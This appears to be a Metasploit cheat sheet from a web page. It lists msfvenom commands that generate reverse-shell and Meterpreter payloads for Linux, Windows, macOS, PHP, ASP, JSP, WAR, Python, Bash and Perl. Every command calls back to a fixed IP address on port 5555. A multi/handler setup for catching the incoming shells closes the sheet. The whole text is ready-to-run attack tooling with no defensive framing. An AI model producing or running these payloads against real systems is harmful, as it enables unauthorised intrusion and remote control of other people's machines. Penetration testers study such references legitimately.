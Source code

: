 Linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f elf > linux_shell.elf
Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f exe > shell.exe
Mac

msfvenom -p osx/x86/shell_reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f macho > shell.macho

Web Payloads
PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f asp > shell.asp
JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f raw > shell.jsp
WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f war > shell.war

Scripting Payloads
Python

msfvenom -p cmd/unix/reverse_python LHOST=120.24.159.2 LPORT=5555 -f raw > shell.py
Bash

msfvenom -p cmd/unix/reverse_bash LHOST=120.24.159.2 LPORT=5555 -f raw > shell.sh
Perl

msfvenom -p cmd/unix/reverse_perl LHOST=120.24.159.2 LPORT=5555 -f raw > shell.pl
Shellcode:

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

Linux Based Shellcode

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f <language>
Windows Based Shellcode

msfvenom -p windows/meterpreter/reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f <language>
 

Mac Based Shellcode

msfvenom -p osx/x86/shell_reverse_tcp LHOST=120.24.159.2 LPORT=5555 -f <language>
Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

复制代码
use exploit/multi/handler

set PAYLOAD <Payload name>

set LHOST <LHOST value>

set LPORT <LPORT value>

set ExitOnSession false

exploit -j -z
复制代码
